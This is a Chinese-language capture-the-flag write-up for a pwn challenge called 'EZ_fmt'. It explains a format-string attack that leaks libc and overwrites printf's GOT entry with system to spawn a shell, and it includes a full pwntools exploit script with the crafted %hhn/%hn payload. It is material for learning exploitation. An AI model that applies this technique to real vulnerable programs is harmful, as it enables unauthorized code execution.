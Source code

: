 # EZ_fmt

![image (25)](assets/images/wp/2024/week2/image (25).png)

很经典的格式化字符串

首先确定offset为8

![image (26)](assets/images/wp/2024/week2/image (26).png)

根据程序

我们有三次格式化字符串的机会

第一次泄露libc

第二次改printf got表地址为system

第三次输入为sh，构造出printf(buf)=system(sh)即可

exp如下

```Python
from pwn import *
import sys
from ctypes import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux','splitw','-h']

libc = ELF('./libc.so.6')
elf = ELF('./chal')
flag =0
if flag:
    p = remote('ip', port)
else:
    p = process("./")

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))


sla(b': \n', b'%19$p')
ru(b'0x')
libc.address = int(rc(12),16) - 0x29d90
leak("libc", libc.address)

low = libc.sym['system']&0xff
high = (libc.sym['system']>>8)&0xffff
payload = b'%' + str(low).encode() + b'c%12$hhn'
payload += b'%' + str(high - low).encode() + b'c%13$hn'
payload = payload.ljust(0x20,b'a')
payload += p64(elf.got['printf']) + p64(elf.got['printf']+1)


sa(b': \n', payload)

sla(b': \n', b'  sh;')
# gdb.attach(p)
p.interactive()
```